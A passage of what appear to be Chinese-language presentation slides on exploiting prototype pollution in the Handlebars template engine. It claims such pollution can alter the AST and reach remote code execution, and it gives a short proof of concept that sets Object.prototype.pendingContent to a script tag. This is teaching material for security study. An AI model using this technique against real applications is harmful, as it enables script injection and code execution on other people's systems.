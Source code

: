 ![alt text](../images/abnormal-template-engine.png)

- 但是，如果存在原型链污染，则可以随意修改 AST 树，进而影响生成的代码，最终达到远程代码执行的目的

</v-clicks>

---

#### Handlebars PoC

<v-clicks>

在开始之前，先看看如何使用 Handlebars 模板引擎。

```js
const Handlebars = require("handlebars");

const template = Handlebars.compile("Hello {{ msg }}");
console.log(template({ msg: "posix" })); // Hello posix
```

`Handlebars.compile` 将字符串转换为模板函数，并传递模板中引用的变量。

```js
const Handlebars = require("handlebars");

Object.prototype.pendingContent = `<script>alert(origin)</script>`;

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({ msg: "posix" })); // <script>alert(origin)</script>Hello posix
```

在这里，我们可以通过原型链污染来影响模板的编译过程。通过插入任意字符串到 `Object.prototype.pendingContent` 中，我们可以确定是否存在原型链污染利用的可能性。
